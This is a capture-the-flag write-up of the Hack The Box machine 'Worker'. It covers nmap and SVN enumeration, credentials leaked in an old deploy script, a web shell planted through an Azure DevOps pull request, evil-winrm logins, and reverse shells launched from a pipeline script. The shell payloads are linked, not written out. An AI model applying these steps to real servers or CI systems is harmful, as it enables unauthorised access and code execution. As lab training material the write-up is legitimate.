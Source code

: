 ```yaml
---
icon: /assets/avatars/worker.png
title: Worker Writeup
author: Valerio Casalino
style: fill
color: primary
tags: [Writeups, Hackthebox]
description: <img src="/assets/avatars/worker.png"> Writeup for Worker (Hackthebox)
---
```


# Worker

I'm tired of saying that every time... Let's start with `nmap`:

```bash
ports=$(sudo nmap -p- --min-rate=1000 -T4 10.10.10.203 | grep "^[0-9]" | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
sudo nmap -sC -sV -p $ports 10.10.10.203
...
PORT     STATE SERVICE  VERSION
80/tcp   open  http     Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3690/tcp open  svnserve Subversion
5985/tcp open  http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
...
```

Going to port 80, we find the default Microsoft IIS welcome page:

![image-20201220024433640](/assets/worker/image-20201220024433640.png)

Let's enumerate the `svn` service:

```bash
> svn info svn://10.10.10.203
Path: .
URL: svn://10.10.10.203
Relative URL: ^/
Repository Root: svn://10.10.10.203
Repository UUID: 2fc74c5a-bc59-0744-a2cd-8b7d1d07c9a1
Revision: 5
Node Kind: directory
Last Changed Author: nathen
Last Changed Rev: 5
Last Changed Date: 2020-06-20 15:52:00 +0200 (Sat, 20 Jun 2020)
```

We know that there is an user named `nathen` and that this is a `svn` location! Now let's list and download the content (if we can):

```bash
> svn list svn://10.10.10.203/
dimension.worker.htb/
moved.txt
> svn export svn://10.10.10.203/
...
> cat moved.txt
This repository has been migrated and will no longer be maintaned here.
You can find the latest version at: http://devops.worker.htb

// The Worker team :)
```

Now we have `moved.txt` and the source code for what it seems to be a website named `dimension.worker.htb`. Now... In that folder you'll find info about every subdomain of this thing... I checked all them out so you don't have to :) .

They could have been found by subdomain enumeration, using a good wordlist (like [this one](https://github.com/danielmiessler/SecLists/blob/master/Discovery/DNS/subdomains-top1million-110000.txt)) and `wfuzz`:

```bash
wfuzz -c -w ./subdomains-top1million-110000.txt -u 'http:/assets/worker.htb' -H "Host: FUZZ.worker.htb" --hw 55 --hc 400
...
alpha
story
cartoon
lens
dimension
spectral
twenty
...
```

Anyway... going on with SVN, we want to checkout the repo and see what's inside:

```bash
> svn checkout svn://10.10.10.203/
...
> svn log
------------------------------------------------------------------------
r5 | nathen | 2020-06-20 15:52:00 +0200 (Sat, 20 Jun 2020) | 1 line

Added note that repo has been migrated
------------------------------------------------------------------------
r4 | nathen | 2020-06-20 15:50:20 +0200 (Sat, 20 Jun 2020) | 1 line

Moving this repo to our new devops server which will handle the deployment for us
------------------------------------------------------------------------
r3 | nathen | 2020-06-20 15:46:19 +0200 (Sat, 20 Jun 2020) | 1 line

-
------------------------------------------------------------------------
r2 | nathen | 2020-06-20 15:45:16 +0200 (Sat, 20 Jun 2020) | 1 line

Added deployment script
------------------------------------------------------------------------
r1 | nathen | 2020-06-20 15:43:43 +0200 (Sat, 20 Jun 2020) | 1 line

First version
------------------------------------------------------------------------
```

We didn't see a deployment script in this version, so let's take a look:

```bash
> svn checkout -r 2 svn://10.10.10.203/
D    moved.txt
A    deploy.ps1
Checked out revision 2.
> cat deploy.ps1
$user = "nathen"
$plain = "wendel98"
$pwd = ($plain | ConvertTo-SecureString)
$Credential = New-Object System.Management.Automation.PSCredential $user, $pwd
$args = "Copy-Site.ps1"
Start-Process powershell.exe -Credential $Credential -ArgumentList ("-file $args")
```

Spoiler alert: nathen:wendel98 are creds to get past the http authentication in http://devops.worker.htb.

Going to that web location and authenticating gives us a dashboard in the Azure DevOps:

![image-20201220134345531](/assets/worker/image-20201220134345531.png)

Going around we find the code that is being deployed for `spectral.worker.htb` as a repository, so the normal thing to do is uploading a web shell! I chose [this one](https://github.com/xl7dev/WebShell/blob/master/Aspx/ASPX%20Shell.aspx). From [this page](http://devops.worker.htb/ekenas/SmartHotel360/_git/spectral/branches), add a branch, put your file or code and initiate a pull request (choose a work item from Boards > Work Items), then from [this page](http://devops.worker.htb/ekenas/SmartHotel360/_git/spectral/pullrequests?_a=mine) select your pull request and accept it from the top menu. Then, visiting the page you'll get a webshell! From that it is a good idea to initiate a reverse shell (the repo resets itself pretty quickly). Use the `powershell` reverse shell to go ahead (refer to [this link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell) for the code). 

![image-20201220141727852](/assets/worker/image-20201220141727852.png)

List the drives mounted in the system with:

```powershell
# https://www.thewindowsclub.com/list-drives-using-command-prompt-powershell-windows
wmic logicaldisk get name
Name
C:
W:
```

Then, looking in the config files `svnrepos/www/conf`, we can see some (valid) credentials: `robisl:wolves11`. NB: use `dir C:\Users\\` to see valid users! `evil-winrm` is your friend here!

```bash
evil-winrm -i 10.10.10.203 -u robisl -p wolves11
# Get your flag ;)
```

Back to `devops.worker.htb`, if we use the creds to pass the http auth, we'll be interacting with `robisl` dashboard.

We're going to create a Pipeline: Pipelines > New Pipeline > Azure Repos Git > PartsUnlimited > Starter Pipeline. In the appearing YAML file delete `pool: "Default"` since we don't have a default pool, then put the same reverse shell code you used before in the `script` section. To use `powershell`, refer to [MS guide](https://docs.microsoft.com/en-us/azure/devops/pipelines/tasks/utility/powershell?view=azure-devops).

![image-20201220151739539](/assets/worker/image-20201220151739539.png)

Save and run it on new branch! (after initiating a listener on the attacker machine). It will not be immediate, but after a couple of seconds, or minutes...

![image-20201220152625358](/assets/worker/image-20201220152625358.png)

Ps. if it doesn't work, try other reverse shell implementations... Anyway... profit!
